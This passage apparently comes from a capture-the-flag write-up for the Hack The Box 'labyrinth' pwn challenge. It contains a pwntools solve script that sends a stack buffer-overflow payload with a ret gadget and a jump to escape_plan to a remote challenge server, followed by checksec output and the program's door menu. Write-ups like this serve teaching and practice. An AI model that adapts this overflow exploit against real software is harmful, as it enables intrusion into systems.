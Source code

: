 Let's solve it using the following script [solve.py](./solve.py):
```python
from pwn import *

elf = ELF('./labyrinth')
libc = elf.libc

if args.REMOTE:
    p = remote('209.97.134.50', 31510)
else:
    p = process(elf.path)

ret_addr = p64(0x401016) # From ROPgadget
payload = b"A"*(56) + ret_addr + p64(elf.symbols['escape_plan'])

print(p.recvuntil('>>').decode('utf-8'))
p.sendline("069")
print(p.recvuntil('>>').decode('utf-8'))

p.sendline(payload)
print(p.recvall().decode('utf-8'))
```

Run it:
```console
┌─[evyatar9@parrot]─[/ctf_htb/cyber_apocalypse/pwn/labyrinth]
└──╼ $ python3 solve.py REMOTE
[*] '/ctf_htb/cyber_apocalypse/pwn/labyrinth/labyrinth'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
[*] '/ctf_htb/cyber_apocalypse/pwn/labyrinth/challenge/glibc/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 138.68.158.112 on port 32726: Done


▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒
▒-▸        ▒           ▒          ▒
▒-▸        ▒     O     ▒          ▒
▒-▸        ▒    '|'    ▒          ▒
▒-▸        ▒    / \    ▒          ▒
▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▲△▲△▲△▲△▲△▒

Select door: 

Door: 001 Door: 002 Door: 003 Door: 004 Door: 005 Door: 006 Door: 007 Door: 008 Door: 009 Door: 010 
Door: 011 Door: 012 Door: 013 Door: 014 Door: 015 Door: 016 Door: 017 Door: 018 Door: 019 Door: 020 
Door: 021 Door: 022 Door: 023 Door: 024 Door: 025 Door: 026 Door: 027 Door: 028 Door: 029 Door: 030 
Door: 031 Door: 032 Door: 033 Door: 034 Door: 035 Door: 036 Door: 037 Door: 038 Door: 039 Door: 040 
Door: 041 Door: 042 Door: 043 Door: 044 Door: 045 Door: 046 Door: 047 Door: 048 Door: 049 Door: 050 
Door: 051 Door: 052 Door: 053 Door: 054 Door: 055 Door: 056 Door: 057 Door: 058 Door: 059 Door: 060 
```
